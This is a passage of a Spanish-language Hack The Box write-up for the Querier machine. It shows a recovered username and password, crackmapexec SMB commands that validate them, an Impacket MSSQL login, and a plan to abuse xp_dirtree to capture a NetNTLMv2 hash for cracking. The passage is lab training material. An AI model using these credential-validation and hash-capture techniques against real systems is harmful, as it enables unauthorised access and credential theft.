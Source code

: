Encontramos un usario y su Contraseña
```bash
reporting:PcwTWTHRwryjc$c6
```
# Crackmapexec

Procedemos a validarla con `Cracmapexec`
```bash
# crackmapexec smb 10.10.10.125 -u reporting -p 'PcwTWTHRwryjc$c6'   
SMB         10.10.10.125    445    QUERIER          [*] Windows 10.0 Build 17763 x64 (name:QUERIER) "(domain:HTB.LOCAL)"(signing:False) (SMBv1:False)
SMB         10.10.10.125    445    QUERIER          [-] HTB.LOCAL\reporting:PcwTWTHRwryjc$c6 STATUS_NO_LOGON_SERVERS 
```

Vemos que esta probando la contraseña a nivel de dominio Activo, pero nos interesa hacerlo para el dominio `WORKGROUP`
```bash
# crackmapexec smb 10.10.10.125 -u reporting -p 'PcwTWTHRwryjc$c6' -d WORKGROUP  
SMB         10.10.10.125    445    QUERIER          [*] Windows 10.0 Build 17763 x64 (name:QUERIER) (domain:WORKGROUP) (signing:False) (SMBv1:False)
SMB         10.10.10.125    445    QUERIER          [+] WORKGROUP\reporting:PcwTWTHRwryjc$c6
``` 

Vemos como para el dominio local si que tenemos una contraseña valida. 
Antes que nada vamos a seguir mirando puertos abiertos interesantes para enumerar un poco por encima.

# Mssqlclient.py 

Aqui hay que tener cuidado ya que como habiamos visto con `Crackmapexec` las `crendeciales` eran para el `GRUPO de TRABAJO/WORKGROUP` aqui en la conexion de autenticacion tendriamos que indicarlo con el parametro `-windows-auth` sino no nos funcionara.

```bash
# mssqlclient.py 'WORKGROUP/reporting:PcwTWTHRwryjc$c6'@10.10.10.125 -windows-auth                                           1 ⚙
Impacket v0.9.24.dev1+20210827.162957.5aa97fa7 - Copyright 2021 SecureAuth Corporation

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: volume
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(QUERIER): Line 1: Changed database context to 'volume'.
[*] INFO(QUERIER): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
SQL> 
```

# Xp_dirtree
Usamos la funcion de mysql-server por la cual hacemos una peticion a un recurso local o externo. Permitiendonos asi postear un
recurso compartido a nivel de red para interceptar el Hash Net NTLMV2 que sirva para crackearlo, y si la contraseña es debil, se tenso.
